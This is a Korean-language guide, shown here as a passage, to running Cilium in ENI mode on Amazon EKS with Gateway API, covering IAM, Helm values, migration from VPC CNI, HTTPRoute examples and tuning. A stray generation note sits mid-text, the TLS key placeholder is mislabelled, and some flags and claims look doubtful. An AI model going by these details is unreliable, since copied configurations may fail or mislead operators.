

**단계 1: L4 로드밸런싱 (NLB)**
- 클라이언트의 TCP 연결 요청을 수신
- Target Group의 헬스체크 상태를 기반으로 정상 노드 선택
- Flow Hash 알고리즘으로 연결 고정성 유지 (5-tuple 기반)

**단계 2: 투명 프록시 (eBPF TPROXY)**
- XDP 훅에서 패킷을 가로채고 연결 추적 맵 조회
- 신규 연결인 경우 로컬 Envoy 리스너로 투명하게 리다이렉트
- 기존 연결인 경우 맵에서 목적지 정보를 읽어 빠른 전달
- 모든 처리가 커널 공간에서 완료되어 컨텍스트 스위칭 없음

**단계 3: L7 라우팅 (Cilium Envoy)**
- HTTP/2 프로토콜 파싱 및 요청 헤더 추출
- HTTPRoute 규칙 매칭 (경로, 헤더, 쿼리 파라미터)
- 요청 변환 (URL rewrite, 헤더 추가/제거)
- rate limiting, 인증/인가 정책 적용

**단계 4: 네이티브 라우팅**
- 백엔드 파드의 ENI IP 주소로 직접 전달
- VXLAN/Geneve 캡슐화 없이 VPC 라우팅 테이블 사용
- EC2 인스턴스의 소스/대상 확인 비활성화 필요 없음
- 응답 패킷도 동일한 경로로 역방향 전달

:::info
이 아키텍처에서 Cilium Envoy는 Gateway API의 `GatewayClass` 구현체 역할을 수행합니다. `HTTPRoute` 리소스의 변경사항은 Cilium Operator가 감지하여 각 노드의 Envoy 구성을 동적으로 업데이트합니다.
:::

### 7.3 사전 요구사항

Cilium ENI 모드를 성공적으로 배포하기 위해서는 다음 요구사항을 충족해야 합니다.

#### EKS 클러스터 요구사항

| 항목 | 요구사항 | 비고 |
|------|----------|------|
| **EKS 버전** | 1.28 이상 (권장: 1.32) | Gateway API v1.4 호환성 |
| **컨트롤 플레인** | kube-proxy 비활성화 | Cilium이 kube-proxy 대체 |
| **노드 운영체제** | Amazon Linux 2023 또는 Ubuntu 22.04 | eBPF 커널 지원 필요 (5.10+) |
| **컨테이너 런타임** | containerd 1.6+ | CRI 호환성 |
| **VPC CNI 제거** | 필수 | Cilium이 CNI 역할 수행 |

:::warning
신규 클러스터를 생성할 때 반드시 `--bootstrapSelfManagedAddons false` 플래그를 사용해야 합니다. 이를 통해 AWS VPC CNI가 자동 설치되지 않으며, Cilium을 클린하게 배포할 수 있습니다.

기존 클러스터에서는 VPC CNI를 제거하는 과정에서 파드 네트워크 연결이 끊기므로, **다운타임을 감수해야 합니다**.
:::

#### VPC/서브넷 요구사항

**IP 주소 가용성**<br/>
ENI 모드에서는 각 파드가 VPC의 실제 IP 주소를 사용하므로, 충분한 IP 주소 공간이 필요합니다.

```bash
# 필요한 IP 주소 수 계산 공식
총_필요_IP = (워커노드수 × 노드당_최대파드수) + 여유분(20%)

# 예시: 10개 노드, 노드당 최대 110개 파드
# 총 필요 IP = (10 × 110) × 1.2 = 1,320개
# 권장 서브넷: /21 (2,048개 IP) 이상
```

**서브넷 구성**
- 각 가용 영역(AZ)별로 최소 1개의 서브넷 필요
- 서브넷 태그 필수:
  ```
  kubernetes.io/role/internal-elb = 1
  kubernetes.io/cluster/<클러스터명> = shared
  ```
- Public/Private 서브넷 모두 사용 가능
- Private 서브넷 권장 (보안 강화)

**VPC 설정**
- DNS 호스트 이름 활성화: `enableDnsHostnames: true`
- DNS 지원 활성화: `enableDnsSupport: true`
- DHCP 옵션 세트에 올바른 도메인 이름 설정

#### IAM 권한

Cilium Operator와 Node가 ENI를 관리하기 위해서는 다음 IAM 권한이 필요합니다.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "ec2:CreateNetworkInterface",
        "ec2:AttachNetworkInterface",
        "ec2:DeleteNetworkInterface",
        "ec2:DetachNetworkInterface",
        "ec2:DescribeNetworkInterfaces",
        "ec2:DescribeInstances",
        "ec2:ModifyNetworkInterfaceAttribute",
        "ec2:AssignPrivateIpAddresses",
        "ec2:UnassignPrivateIpAddresses",
        "ec2:DescribeSubnets",
        "ec2:DescribeSecurityGroups",
        "ec2:CreateTags"
      ],
      "Resource": "*"
    }
  ]
}
```

**IRSA (IAM Roles for Service Accounts) 구성**

```bash
# Cilium Operator용 IAM 역할 생성
eksctl create iamserviceaccount \
  --name cilium-operator \
  --namespace kube-system \
  --cluster <클러스터명> \
  --role-name CiliumOperatorRole \
  --attach-policy-arn arn:aws:iam::aws:policy/AmazonEKS_CNI_Policy \
  --approve

# 추가 인라인 정책 연결
aws iam put-role-policy \
  --role-name CiliumOperatorRole \
  --policy-name CiliumENIPolicy \
  --policy-document file://cilium-eni-policy.json
```

**노드 IAM 역할에 권한 추가**

```bash
# 노드 그룹의 IAM 역할 ARN 확인
NODE_ROLE=$(aws eks describe-nodegroup \
  --cluster-name <클러스터명> \
  --nodegroup-name <노드그룹명> \
  --query 'nodegroup.nodeRole' \
  --output text)

# 정책 연결
aws iam attach-role-policy \
  --role-name $(echo $NODE_ROLE | cut -d'/' -f2) \
  --policy-arn arn:aws:iam::aws:policy/AmazonEKS_CNI_Policy
```

:::tip EKS Auto Mode와 Cilium 관계

**EKS Auto Mode** (2024년 11월 출시)는 노드 프로비저닝, 컴퓨팅 용량 관리, 보안 패치를 자동화하는 EKS의 새로운 운영 모드입니다.

**Cilium과의 호환성:**
- ✅ **호환 가능**: EKS Auto Mode는 CNI 플러그인 선택을 제한하지 않음
- ✅ **Karpenter 통합**: Auto Mode의 노드 프로비저닝은 Karpenter 기반이므로, Cilium ENI 모드와 자연스럽게 통합
- ⚠️ **주의사항**: Auto Mode에서는 `--bootstrapSelfManagedAddons false` 플래그가 기본값이므로, VPC CNI 충돌 없음
- 📊 **모니터링**: Auto Mode의 관리형 모니터링은 Hubble 메트릭과 병행 사용 가능

**권장 사항:**
- 신규 프로젝트: EKS Auto Mode + Cilium ENI 조합 권장
- 기존 클러스터: 수동 관리에서 Auto Mode로 마이그레이션 시 Cilium 재배포 불필요
:::

### 7.4 설치 흐름

Cilium ENI 모드의 설치 방법은 클러스터가 신규인지 기존인지에 따라 다릅니다.

#### 신규 클러스터 (권장)

신규 클러스터에서는 VPC CNI가 설치되지 않은 상태에서 Cilium을 배포하므로 다운타임 없이 클린한 설치가 가능합니다.

**Step 1: EKS 클러스터 생성 (VPC CNI 비활성화)**

```bash
# eksctl을 사용한 클러스터 생성
cat <<EOF > cluster-config.yaml
apiVersion: eksctl.io/v1alpha5
kind: ClusterConfig

metadata:
  name: cilium-gateway-cluster
  region: ap-northeast-2
  version: "1.32"

vpc:
  cidr: 10.0.0.0/16
  nat:
    gateway: HighlyAvailable  # NAT Gateway 다중화

# VPC CNI 자동 설치 비활성화 (핵심!)
addonsConfig:
  autoApplyPodIdentityAssociations: false

managedNodeGroups:
  - name: ng-1
    instanceType: m7g.xlarge
    desiredCapacity: 3
    minSize: 3
    maxSize: 10
    volumeSize: 100
    privateNetworking: true
    iam:
      withAddonPolicies:
        autoScaler: true
        albIngress: true
        cloudWatch: true
    labels:
      role: worker
    tags:
      nodegroup-name: ng-1

# kube-proxy 비활성화 (Cilium이 대체)
kubeProxy:
  disable: true
EOF

# 클러스터 생성 (10-15분 소요)
eksctl create cluster -f cluster-config.yaml --bootstrapSelfManagedAddons false
```

:::warning
`--bootstrapSelfManagedAddons false` 플래그를 **반드시** 포함해야 합니다. 이 플래그가 없으면 VPC CNI가 자동 설치되어 Cilium과 충돌합니다.
:::

**Step 2: Gateway API CRDs 설치**

```bash
# Gateway API v1.4.0 표준 CRDs 설치
kubectl apply -f https://github.com/kubernetes-sigs/gateway-api/releases/download/v1.4.0/standard-install.yaml

# 설치 확인
kubectl get crd | grep gateway
```

**출력 예시:**
```
gatewayclasses.gateway.networking.k8s.io         2026-02-12T00:00:00Z
gateways.gateway.networking.k8s.io               2026-02-12T00:00:00Z
httproutes.gateway.networking.k8s.io             2026-02-12T00:00:00Z
referencegrants.gateway.networking.k8s.io        2026-02-12T00:00:00Z
```

**Step 3: Cilium Helm 저장소 추가**

```bash
helm repo add cilium https://helm.cilium.io/
helm repo update
```

**Step 4: Cilium Helm 설치**

```yaml
# cilium-values.yaml
# ENI 모드 활성화
eni:
  enabled: true
  awsEnablePrefixDelegation: true  # /28 Prefix Delegation
  awsReleaseExcessIPs: true        # 미사용 IP 자동 해제
  updateEC2AdapterLimitViaAPI: true
  iamRole: "arn:aws:iam::123456789012:role/CiliumOperatorRole"

# IPAM 모드를 ENI로 설정
ipam:
  mode: "eni"
  operator:
    clusterPoolIPv4PodCIDRList:
      - 10.0.0.0/16  # VPC CIDR과 동일

# 네이티브 라우팅 활성화
routingMode: native
autoDirectNodeRoutes: true
ipv4NativeRoutingCIDR: 10.0.0.0/16

# kube-proxy 대체
kubeProxyReplacement: true
k8sServiceHost: <API_SERVER_ENDPOINT>  # EKS API 서버 주소
k8sServicePort: 443

# Gateway API 활성화
gatewayAPI:
  enabled: true
  hostNetwork:
    enabled: false  # NLB 사용 시 false

# Hubble 관측성
hubble:
  enabled: true
  relay:
    enabled: true
    replicas: 2
  ui:
    enabled: true
    replicas: 1
    ingress:
      enabled: false  # 별도 HTTPRoute로 노출
  metrics:
    enabled:
      - dns
      - drop
      - tcp
      - flow
      - port-distribution
      - icmp
      - httpV2:exemplars=true;labelsContext=source_ip,source_namespace,source_workload,destination_ip,destination_namespace,destination_workload,traffic_direction

# Operator 고가용성
operator:
  replicas: 2
  rollOutPods: true
  prometheus:
    enabled: true
    serviceMonitor:
      enabled: true

# Agent 설정
prometheus:
  enabled: true
  serviceMonitor:
    enabled: true

# 보안 강화
policyEnforcementMode: "default"
encryption:
  enabled: false  # AWS VPC 자체 암호화 사용 시 비활성화
  type: wireguard  # 필요 시 WireGuard 활성화

# 성능 최적화
bpf:
  preallocateMaps: true
  mapDynamicSizeRatio: 0.0025  # 메모리의 0.25% 사용
  monitorAggregation: medium
  lbMapMax: 65536  # 로드밸런서 맵 크기

# Maglev 로드밸런싱
loadBalancer:
  algorithm: maglev
  mode: dsr

# XDP 가속 (지원 NIC 필요)
enableXDPPrefilter: true
```

```bash
# EKS API 서버 엔드포인트 가져오기
API_SERVER=$(aws eks describe-cluster \
  --name cilium-gateway-cluster \
  --query 'cluster.endpoint' \
  --output text | sed 's/https:\/\///')

# Helm 차트 설치
helm install cilium cilium/cilium \
  --version 1.17.0 \
  --namespace kube-system \
  --values cilium-values.yaml \
  --set k8sServiceHost=${API_SERVER} \
  --wait
```

**Step 5: CoreDNS 설치**

Cilium 설치 시 kube-proxy를 비활성화했으므로, CoreDNS가 아직 없을 수 있습니다.

```bash
# CoreDNS 배포
kubectl apply -f https://raw.githubusercontent.com/cilium/cilium/v1.17/examples/kubernetes/addons/coredns/coredns.yaml

# CoreDNS 파드 확인
kubectl get pods -n kube-system -l k8s-app=kube-dns
```

**Step 6: 설치 검증**

```bash
# Cilium CLI 설치 (macOS)
brew install cilium-cli

# 또는 Linux/macOS 공통
CILIUM_CLI_VERSION=$(curl -s https://raw.githubusercontent.com/cilium/cilium-cli/main/stable.txt)
curl -L --remote-name-all https://github.com/cilium/cilium-cli/releases/download/${CILIUM_CLI_VERSION}/cilium-linux-amd64.tar.gz{,.sha256sum}
sudo tar xzvfC cilium-linux-amd64.tar.gz /usr/local/bin
rm cilium-linux-amd64.tar.gz{,.sha256sum}

# Cilium 상태 확인 (최대 5분 대기)
cilium status --wait

# 연결성 테스트 (약 2-3분 소요)
cilium connectivity test
```

**정상 출력 예시:**
```
    /¯¯\
 /¯¯\__/¯¯\    Cilium:             OK
 \__/¯¯\__/    Operator:           OK
 /¯¯\__/¯¯\    Envoy DaemonSet:    OK
 \__/¯¯\__/    Hubble Relay:       OK
    \__/       ClusterMesh:        disabled

DaemonSet         cilium             Desired: 3, Ready: 3/3, Available: 3/3
Deployment        cilium-operator    Desired: 2, Ready: 2/2, Available: 2/2
Deployment        hubble-relay       Desired: 2, Ready: 2/2, Available: 2/2
Containers:       cilium             Running: 3
                  cilium-operator    Running: 2
                  hubble-relay       Running: 2
```

**Step 7: Gateway 리소스 생성**

```yaml
# gateway-resources.yaml
---
apiVersion: gateway.networking.k8s.io/v1
kind: GatewayClass
metadata:
  name: cilium
spec:
  controllerName: io.cilium/gateway-controller
---
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: cilium-gateway
  namespace: default
  annotations:
    # NLB 생성 어노테이션
    service.beta.kubernetes.io/aws-load-balancer-type: "nlb"
    service.beta.kubernetes.io/aws-load-balancer-scheme: "internet-facing"
    service.beta.kubernetes.io/aws-load-balancer-backend-protocol: "tcp"
    service.beta.kubernetes.io/aws-load-balancer-cross-zone-load-balancing-enabled: "true"
    service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: "ip"  # ENI IP 직접 사용
spec:
  gatewayClassName: cilium
  listeners:
    - name: http
      protocol: HTTP
      port: 80
      allowedRoutes:
        namespaces:
          from: All
    - name: https
      protocol: HTTPS
      port: 443
      allowedRoutes:
        namespaces:
          from: All
      tls:
        mode: Terminate
        certificateRefs:
          - kind: Secret
            name: tls-cert
---
apiVersion: v1
kind: Secret
metadata:
  name: tls-cert
  namespace: default
type: kubernetes.io/tls
stringData:
  tls.crt: |
    -----BEGIN CERTIFICATE-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AEXAMPLECERTIFICATE
    -----END CERTIFICATE-----
  tls.key: |
    -----BEGIN EC PARAMETERS-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AEXAMPLEKEYDATA
    -----END EC PARAMETERS-----
```

```bash
# Gateway 배포
kubectl apply -f gateway-resources.yaml

# Gateway 상태 확인
kubectl get gateway cilium-gateway -o yaml
```

**Gateway 준비 완료 상태:**
```yaml
status:
  conditions:
    - type: Accepted
      status: "True"
      reason: Accepted
    - type: Programmed
      status: "True"
      reason: Programmed
  addresses:
    - type: IPAddress
      value: "a1234567890abcdef.elb.ap-northeast-2.amazonaws.com"
```

Due to length, I'll continue in the next part with sections 7.5-7.8 and then sections 8-10.
#### 기존 클러스터 (다운타임 발생)

기존 클러스터에서는 VPC CNI를 제거하고 Cilium으로 교체하는 과정에서 파드 네트워크가 일시적으로 끊깁니다.

:::danger 다운타임 경고
이 프로세스는 **전체 클러스터의 파드 네트워크를 중단**시킵니다. 프로덕션 환경에서는 블루-그린 클러스터 전환 또는 유지보수 창(maintenance window) 설정을 강력히 권장합니다.

예상 다운타임: **5-10분** (클러스터 크기에 따라 변동)
:::

**Step 1: 백업 수행**

```bash
# 현재 네트워크 구성 백업
kubectl get -A pods -o yaml > backup-pods.yaml
kubectl get -A services -o yaml > backup-services.yaml
kubectl get -A ingress -o yaml > backup-ingress.yaml

# VPC CNI 구성 백업
kubectl get daemonset aws-node -n kube-system -o yaml > backup-aws-node.yaml
```

**Step 2: VPC CNI 제거**

```bash
# aws-node DaemonSet 삭제
kubectl delete daemonset aws-node -n kube-system

# kube-proxy 삭제 (Cilium이 대체)
kubectl delete daemonset kube-proxy -n kube-system
```

**Step 3: 노드 테인트 추가 (선택적, 안전장치)**

```bash
# 모든 노드에 NoSchedule 테인트 추가
kubectl get nodes -o name | xargs -I {} kubectl taint node {} key=value:NoSchedule
```

**Step 4: Cilium 설치 (신규 클러스터와 동일)**

위의 "신규 클러스터" 섹션의 Step 2-7을 동일하게 수행합니다.

**Step 5: 파드 재시작**

```bash
# 모든 네임스페이스의 파드 재시작 (Rolling Restart)
kubectl get namespaces -o jsonpath='{.items[*].metadata.name}' | \
  xargs -n1 -I {} kubectl rollout restart deployment -n {}

# DaemonSet도 재시작
kubectl get daemonsets -A -o jsonpath='{range .items[*]}{.metadata.namespace}{" "}{.metadata.name}{"\n"}{end}' | \
  while read ns ds; do
    kubectl rollout restart daemonset $ds -n $ns
  done
```

**Step 6: 네트워크 검증**

```bash
# 파드 간 통신 테스트
kubectl run test-pod --image=nicolaka/netshoot --rm -it -- /bin/bash
# 파드 내에서:
ping 10.0.1.10  # 다른 파드의 ENI IP
curl http://kubernetes.default.svc.cluster.local

# DNS 해석 테스트
nslookup kubernetes.default.svc.cluster.local

# 외부 통신 테스트
curl https://www.google.com
```

### 7.5 Gateway API 리소스 구성

Cilium Gateway API를 활용한 실전 라우팅 구성 예시입니다.

#### 기본 HTTPRoute

```yaml
# basic-httproute.yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: example-route
  namespace: production
spec:
  parentRefs:
    - name: cilium-gateway
      namespace: default
  hostnames:
    - "api.example.com"
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /api/v1
      backendRefs:
        - name: api-service
          port: 8080
          weight: 100
      filters:
        - type: RequestHeaderModifier
          requestHeaderModifier:
            add:
              - name: X-Backend-Version
                value: "v1"
```

#### 트래픽 분할 (Canary Deployment)

```yaml
# canary-httproute.yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: canary-route
  namespace: production
spec:
  parentRefs:
    - name: cilium-gateway
      namespace: default
  hostnames:
    - "api.example.com"
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /api/v2
      backendRefs:
        - name: api-v2-stable
          port: 8080
          weight: 90  # 90% 트래픽
        - name: api-v2-canary
          port: 8080
          weight: 10  # 10% 트래픽
```

#### 헤더 기반 라우팅

```yaml
# header-based-route.yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: header-route
  namespace: production
spec:
  parentRefs:
    - name: cilium-gateway
  hostnames:
    - "api.example.com"
  rules:
    # 베타 사용자는 새 버전으로 라우팅
    - matches:
        - headers:
            - type: Exact
              name: X-User-Type
              value: beta
      backendRefs:
        - name: api-v2-beta
          port: 8080

    # 일반 사용자는 안정 버전으로 라우팅
    - matches:
        - path:
            type: PathPrefix
            value: /
      backendRefs:
        - name: api-v1-stable
          port: 8080
```

#### URL Rewrite

```yaml
# url-rewrite-route.yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: rewrite-route
  namespace: production
spec:
  parentRefs:
    - name: cilium-gateway
  hostnames:
    - "api.example.com"
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /old-api
      filters:
        - type: URLRewrite
          urlRewrite:
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /new-api
      backendRefs:
        - name: new-api-service
          port: 8080
```

#### 역할 분리 적용 가이드

Gateway API의 핵심 장점인 역할 분리를 Cilium에서 구현하는 방법입니다.

```yaml
# role-separation-example.yaml

# 1. 플랫폼 팀: GatewayClass 관리 (cluster-admin)
---
apiVersion: gateway.networking.k8s.io/v1
kind: GatewayClass
metadata:
  name: production-gateway
spec:
  controllerName: io.cilium/gateway-controller
  parametersRef:
    group: ""
    kind: ConfigMap
    name: gateway-config
    namespace: kube-system

---
# 플랫폼 팀: Gateway 인프라 관리 (infra 네임스페이스)
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: shared-gateway
  namespace: infra
  annotations:
    service.beta.kubernetes.io/aws-load-balancer-type: "nlb"
    service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: "ip"
spec:
  gatewayClassName: production-gateway
  listeners:
    - name: https
      protocol: HTTPS
      port: 443
      allowedRoutes:
        namespaces:
          from: All  # 모든 네임스페이스에서 연결 가능
      tls:
        mode: Terminate
        certificateRefs:
          - kind: Secret
            name: wildcard-tls-cert
            namespace: infra

---
# 2. 개발 팀 A: HTTPRoute 관리 (team-a 네임스페이스)
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: team-a-route
  namespace: team-a
spec:
  parentRefs:
    - name: shared-gateway
      namespace: infra  # 크로스 네임스페이스 참조
  hostnames:
    - "team-a.example.com"
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /
      backendRefs:
        - name: team-a-service
          port: 8080

---
# 3. 개발 팀 B: HTTPRoute 관리 (team-b 네임스페이스)
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: team-b-route
  namespace: team-b
spec:
  parentRefs:
    - name: shared-gateway
      namespace: infra
  hostnames:
    - "team-b.example.com"
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /
      backendRefs:
        - name: team-b-service
          port: 9090

---
# 크로스 네임스페이스 참조 허용 (플랫폼 팀이 생성)
apiVersion: gateway.networking.k8s.io/v1beta1
kind: ReferenceGrant
metadata:
  name: allow-team-routes
  namespace: infra
spec:
  from:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      namespace: team-a
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      namespace: team-b
  to:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: shared-gateway
```

**RBAC 설정:**

```yaml
# rbac-platform-team.yaml
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: gateway-infrastructure-admin
rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["gatewayclasses", "gateways"]
    verbs: ["create", "delete", "get", "list", "patch", "update", "watch"]
  - apiGroups: [""]
    resources: ["secrets"]
    verbs: ["get", "list", "watch"]

---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: platform-team-gateway
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: gateway-infrastructure-admin
subjects:
  - kind: Group
    name: platform-team
    apiGroup: rbac.authorization.k8s.io

---
# rbac-dev-team.yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: httproute-manager
  namespace: team-a
rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["httproutes"]
    verbs: ["create", "delete", "get", "list", "patch", "update", "watch"]

---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: team-a-httproute
  namespace: team-a
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: httproute-manager
subjects:
  - kind: Group
    name: team-a-developers
    apiGroup: rbac.authorization.k8s.io
```

### 7.6 성능 최적화

Cilium ENI 모드에서 최대 성능을 달성하기 위한 튜닝 방법입니다.

#### NLB + Cilium Envoy 조합 이점



**레이턴시 비교:**

| 구성 요소 | ALB + NGINX | NLB + Cilium | 개선율 |
|-----------|-------------|--------------|--------|
| L4 로드밸런서 | ALB: 10ms | NLB: 0.4ms | **96% 감소** |
| L7 프록시 | NGINX: 5ms | eBPF+Envoy: 3.1ms | **38% 감소** |
| **총 레이턴시** | **15ms** | **3.5ms** | **77% 감소** |

#### ENI/IP 관리 최적화

**Prefix Delegation 활성화**<br/>
단일 IP 할당 대신 /28 블록(16개 IP)을 한 번에 할당받아 ENI 어태치 오버헤드를 줄입니다.

```yaml
# cilium-values.yaml (ENI 섹션)
eni:
  awsEnablePrefixDelegation: true

  # 미사용 IP 초과분 자동 해제 (비용 절감)
  awsReleaseExcessIPs: true

  # 노드당 최소 예약 IP 수
  minAllocate: 10

  # 사전 할당 IP 수 (파드 스케일 아웃 대비)
  preAllocate: 8
```

**효과:**
- ENI 어태치 횟수 최대 16배 감소
- 파드 시작 시간 30-50% 단축
- AWS API 호출 횟수 감소 (Rate Limiting 회피)

**인스턴스 타입별 ENI/IP 한도 확인:**

```bash
# AWS CLI로 한도 조회
aws ec2 describe-instance-types \
  --instance-types m7g.xlarge \
  --query 'InstanceTypes[0].NetworkInfo.{MaxENI:MaximumNetworkInterfaces,IPv4PerENI:Ipv4AddressesPerInterface}'

# 출력 예시:
# {
#   "MaxENI": 4,
#   "IPv4PerENI": 15
# }
# Prefix Delegation 사용 시: 4 ENI × 16 IP/Prefix = 최대 64개 파드
```

#### BPF 튜닝

**맵 사전 할당 활성화**<br/>
eBPF 맵을 동적 할당 대신 시작 시 사전 할당하여 레이턴시 지터를 제거합니다.

```yaml
# cilium-values.yaml
bpf:
  preallocateMaps: true  # 맵 사전 할당

  # 맵 크기 조정 (기본값의 2배)
  lbMapMax: 65536        # 로드밸런서 백엔드 최대 수
  natMax: 524288         # NAT 연결 추적 최대 수
  neighMax: 524288       # 이웃 테이블 최대 수
  policyMapMax: 16384    # 정책 엔트리 최대 수

  # 모니터 집계 레벨 (CPU 사용량 vs 가시성)
  monitorAggregation: medium  # none, low, medium, maximum

  # CT 테이블 크기 (Connection Tracking)
  ctTcpMax: 524288
  ctAnyMax: 262144
```

**메모리 사용량 계산:**
```bash
# 예상 메모리 사용량 = (맵 크기 × 엔트리 크기) 합계
# lbMapMax (65536 × 128B) = 8MB
# natMax (524288 × 64B) = 32MB
# 총 예상 메모리: ~100-200MB/노드
```

#### 라우팅 최적화

**Maglev 로드밸런싱 알고리즘**<br/>
구글이 개발한 일관된 해싱 기반 로드밸런싱으로, 백엔드 변경 시에도 연결 고정성을 최대한 유지합니다.

```yaml
# cilium-values.yaml
loadBalancer:
  algorithm: maglev  # 기본값: random
  mode: dsr          # Direct Server Return

  # Maglev 테이블 크기 (소수여야 함)
  maglev:
    tableSize: 65521  # 권장: 65521 (소수)
    hashSeed: "JLfvgnHc2kaSUFaI"  # 클러스터별 고유 시드
```

**알고리즘 비교:**

| 알고리즘 | 연결 고정성 | 백엔드 추가 시 | 백엔드 제거 시 | CPU 오버헤드 |
|----------|-------------|----------------|----------------|--------------|
| random | 없음 | 영향 없음 | 영향 없음 | 최소 |
| maglev | **최대 90%** | 10% 재배치 | 제거된 백엔드 트래픽만 재배치 | 낮음 |

**XDP 가속 (eXpress Data Path)**<br/>
네트워크 드라이버 레벨에서 패킷을 처리하여 커널 네트워크 스택을 완전히 우회합니다.

```yaml
# cilium-values.yaml
# XDP 프리필터 활성화 (DDoS 방어, 잘못된 패킷 조기 드롭)
enableXDPPrefilter: true

# XDP 모드 선택
xdp:
  mode: native  # native(최고 성능) 또는 generic(호환성)
```

**XDP 지원 확인:**
```bash
# 노드에서 실행
ethtool -i eth0 | grep driver
